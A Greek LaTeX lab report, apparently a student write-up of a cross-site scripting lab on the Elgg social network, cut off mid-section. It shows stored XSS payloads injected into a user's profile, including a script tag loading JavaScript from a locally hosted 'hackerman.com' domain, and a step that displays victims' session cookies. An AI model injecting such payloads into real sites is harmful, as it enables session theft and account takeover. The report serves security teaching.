% Writed by: Stavros Papantonakis
%
%!TEX TS-program = xelatex
%!TEX encoding = UTF-8 Unicode
%
\setcounter{section}{0}
\section*{Δραστηριότητες εργαστηρίου}


\noindent
Σε αυτό το εργαστήριο, πρέπει να γραφτεί κώδικας \textbf{JavaScript} ο οποίος να μπορεί να στέλνει
κατάλληλα αιτήματα \textbf{HTTP (HTTP Requests)} εξ ονόματος του θύματος. Προκειμένου να
κατασκευάσουμε έγκυρα αιτήματα, θα πρέπει πρώτα να καταγράψουμε και να αναλύσουμε
τη δομή των \textbf{HTTP Requests} που παράγει η εφαρμογή Elgg για τις διάφορες ενέργειες
που υποστηρίζει (όπως π.χ. κατά την προσθήκη ενός φίλου, κατά την ενημέρωση των
στοιχείων ενός χρήστη κ.λπ.).

\noindent
Αυτό μπορεί να γίνει με χρήση κατάλληλων addons του \textbf{Firefox}, όπως το
\textbf{HTTP Header Live4}. Πριν αρχίσετε να εργάζεστε σε αυτή την εργαστηριακή άσκηση,
θα πρέπει να εξοικειωθείτε με αυτό το εργαλείο. Οδηγίες για τη χρήση αυτού του
εργαλείου δίνονται στο Παράρτημα.

\section{Εμφάνιση μηνύματος ειδοποίησης (alert)}
\subsection*{Απάντηση:}
\noindent
Για να το πετύχουμε αυτό μπορούμε να πάμε στο Εdit Profile του
χρήστη Samy και να γράψουμε τον αντίστοιχο κώδικα javascript στο
πεδίο brief description.

\begin{center}
	\begin{lstlisting}	
<script>alert('You are hacked!');</script>
	\end{lstlisting}	
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.1.PNG}		
\end{center}
\noindent
Μόλις κάνουμε save παρατηρούμε το ότι η εντολή alert εκτελείτε
και μας εμφανίζει το αντιστοιχώ μήνυμα.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.2.PNG}		
\end{center}

\noindent
Συνδεόμαστε στο προφίλ τις Alice.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.3.PNG}		
\end{center}
\noindent
Επιλέγουμε More$>>$ Members, και επιλέγουμε το προφίλ του Samy.
Παρατηρούμε ότι η alert εκτελείτε κανονικά και όταν η Alice βλέπει
το προφίλ του Samy.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.4.PNG}		
\end{center}

\noindent
Αν θέλαμε να τρέξουμε μεγαλύτερο κώδικα οπού δεν χωρούσε 
στο brief description η σε κάποιο άλλο πιθανό πεδίο θα μπορούσαμε
να καλέσουμε ένα αρχείο javascript που είναι ανεβασμένο σε κάποιον
Server.

\noindent
Για το δικό μας παράδειγμα μπορούμε να δημιουργήσουμε ένα Site
που θα προσομοιώνει την λειτουργιά του server που περιεχέι τα
κακόβουλα προγράμματα javascript έτσι ώστε να μπορούμε να τα
καλούμε μέσα από το ευπαθές site.

\noindent
Αρχικά δημιουργούμε έναν κατάλογο στο path /var/www.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.5.1.PNG}		
\end{center}

\noindent
μέσα δημιουργούμε ένα αρχείο .js στο οποίο γράφουμε τον κακόβουλο
κώδικα.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.5.2.PNG}		
\end{center}

\noindent
αυτός ο φάκελος βρίσκετε τοπικά στον υπολογιστή μας, επόμενος 
για να τον κάνουμε εμφανές από τον appache πάμε στον κατάλογο
/etc/apache2/sites-available/
\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.5.3.PNG}		
\end{center}
\noindent
και στο αρχείο 000-default.conf
προσθέτουμε μια νέα έγγραφη στο τέλος με το domain που θέλουμε και
το που βρίσκετε μέσα στο server τα αρχεία του site.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.5.4.PNG}		
\end{center}
\noindent
Επειδή το domain που χρησιμοποιήσαμε δεν είναι δεσμευμένο από κάποια 
υπηρεσία domain και ούτε υπάρχει αντιστοιχία από κάποιον dns, πάμε στο αρχείο
/etc/hosts και προσθέτουμε μια εγγραφή στο τέλος του, με το domain 
μας και την localhost ip έτσι ώστε όταν καλούμε το συγκεκριμένο 
domain από τον browser να μας οδηγεί στον τοπικό apache
\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.5.5.PNG}		
\end{center}

\noindent
Τέλος στο πεδίο brief description αντικαθιστούμε τον κώδικα με των
παρακάτω 
\begin{center}
	\begin{lstlisting}	
<script type="text/javascript"
src="http://www.hackerman.com/alerthack.js">
</script>
	\end{lstlisting}	
\end{center}
\begin{center}
			
\includegraphics[width=1\textwidth]{image/1.5.0.PNG}		
\end{center}

\newpage
\section{Εμφάνιση μηνύματος με τα Session Cookies}
\subsection*{Απάντηση:}

\noindent
Για το δεύτερο πείραμα ακολουθούμε την ίδια διαδικασία με το προηγούμενο.
δημιουργούμε ένα αρχείο .js.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.1.PNG}		
\end{center}

\noindent
Το ανοίγουμε και γράφουμε μέσα τον κακόβουλο κώδικα.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.2.PNG}		
\end{center}
\noindent στο προφίλ του Samy αλλάζουμε το link για το νέο αρχείο 
και πατάμε save.

\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.3.PNG}		
\end{center}
\noindent
Παρατηρούμε ότι μας εμφανίζει το session cookie μας.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.4.PNG}		
\end{center}
\noindent
Συνδέοντας στον χρήστη Alice
\begin{center}
			
\includegraphics[width=1\textwidth]{image/2.5.PNG}		
\end{center}

\noindent
και επιλέγοντας το προφίλ του Samy παρατηρούμε ότι ο κώδικας .js
εκτελείτε κανονικά και στην Alice.
\begin{center}
